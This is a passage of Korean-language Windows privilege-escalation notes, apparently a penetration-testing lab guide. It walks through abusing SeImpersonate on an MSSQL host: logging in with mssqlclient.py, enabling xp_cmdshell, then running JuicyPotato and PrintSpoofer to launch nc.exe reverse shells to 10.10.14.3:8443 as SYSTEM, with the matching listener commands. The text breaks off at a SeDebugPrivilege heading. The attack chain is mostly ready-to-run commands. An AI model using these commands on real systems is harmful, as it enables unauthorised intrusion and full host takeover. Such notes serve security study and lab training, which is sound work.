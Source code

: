 ```ipconfig /all```
| SeRestorePrivilege                                                                              | [Restore files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories)                               | Administrators                                          | 이 보안 설정은 백업된 파일과 디렉토리를 복원할 때 어떤 사용자가 파일, 디렉토리, 레지스트리 및 기타 영구 개체 권한을 우회할 수 있는지 결정합니다. 어떤 사용자가 개체의 소유자로 유효한 보안 주체를 설정할 수 있는지 결정합니다.                                                               |

- 특정 권한을 활성화하는 데 사용할 수 있는 [PowerShell 스크립트](https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1)
- 토큰 권한을 조정하는 데 사용할 수 있는 [스크립트](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)

<br/><br/>
# SeImpersonate 및 SeAssignPrimaryToken

## SeImpersonate 예 - JuicyPotato

### MSSQLClient.py로 연결하기
- Impacket` 툴킷의 [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py)<br/>
```mssqlclient.py sql_dev@10.129.43.30 -windows-auth```

### xp_cmdshell 활성화
```SQL> enable_xp_cmdshell```

### 액세스 확인
```SQL> xp_cmdshell whoami```

### Account 권한 체크
```xp_cmdshell whoami /priv```

### JuicyPotato를 사용한 권한 상승
- [JuicyPotato](https://github.com/ohpe/juicy-potato)는 `SeImpersonate` 또는 `SeAssignPrimaryToken` 권한을 악용하는 데 사용<br/>
```xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *```

### SYSTEM Shell 잡기
```sudo nc -lnvp 8443```

<br/><br/>
## PrintSpoofer와 RoguePotato
- [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
- [RoguePotato](https://github.com/antonioCoco/RoguePotato)

### PrintSpoofer를 사용하여 권한 확대
```xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"```

### SYSTEM으로 Reverse Shell 잡기
```nc -lnvp 8443```

<br/><br/>
# SeDebugPrivilege
```
whoami /priv
